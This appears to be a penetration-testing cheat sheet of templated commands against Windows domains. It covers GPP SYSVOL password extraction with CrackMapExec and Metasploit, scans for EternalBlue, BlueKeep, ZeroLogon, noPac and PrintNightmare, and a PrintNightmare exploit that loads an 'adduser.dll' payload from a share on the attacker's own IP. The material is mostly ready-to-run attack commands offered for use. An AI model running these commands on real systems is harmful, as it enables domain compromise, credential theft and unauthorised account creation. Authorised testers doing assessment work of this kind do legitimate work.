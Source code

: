 # CVE

## Check & Exploit GPP SYSVOL (MS14-025) - cme

```
cme smb <domain-controller> -u <user> -p <password> -d <domain> -M gpp_password
```

= domain-controller: $DC
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## Check & Exloit GPP SYSVOL (MS14-025) - msf

```
msfconsole -x "use scanner/smb/smb_enum_gpp;set RHOST <domain-controller>;set SMBDomain <domain>;set SMBUser <user>;set SMBPass <password>"
```

= domain-controller: $DC
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## Check SMB vulnerabilities

```
nmap -Pn --script smb-vuln* -p139,445 -iL <target>
```

= target: $TARGETS/computers.list

## Check Eternal Blue (MS17-010) - cme

```
cme smb <target> -M ms17
```

= target: $TARGETS/computers.list

## Check BlueKeep (CVE-2019-0708)

```
rdpscan <target>
```

= target: $TARGETS/computers.list

## Check Eternal Blue (MS17-010) - nmap

```
nmap -Pn --script smb-vuln-ms17-010 -p139,445 <target>
```

= target: $TARGETS/computers.list

## Check Zero Logon (CVE-2020-1472)

```
cme smb <domain-controller> -M zerologon
```

= domain-controller: $DC

## Check noPac (CVE-2021-42278 and CVE-2021-42287)

```
cme smb <domain-controller> -u <user> -p '<password>' -d <domain> -M nopac
```

= domain-controller: $DC
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## Check Print Nightmare with Docker (CVE-2021-34527)

```
docker run -v "<target>:/target.txt"-it itwasalladream -u <user> -p '<password>' -d <domain> target.txt
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
= target: $TARGETS/computers.list

## Check Print Nightmare with local install (CVE-2021-34527)

```
itwasalladream -u <user> -p '<password>' -d <domain> target.txt
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
= target: $TARGETS/computers.list

## Exploit Print Nightmare (CVE-2021-34527)

```
CVE-2021-1675 <domain>/<user>:<password>@<target> '\\<my_ip>\public\adduser.dll'
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
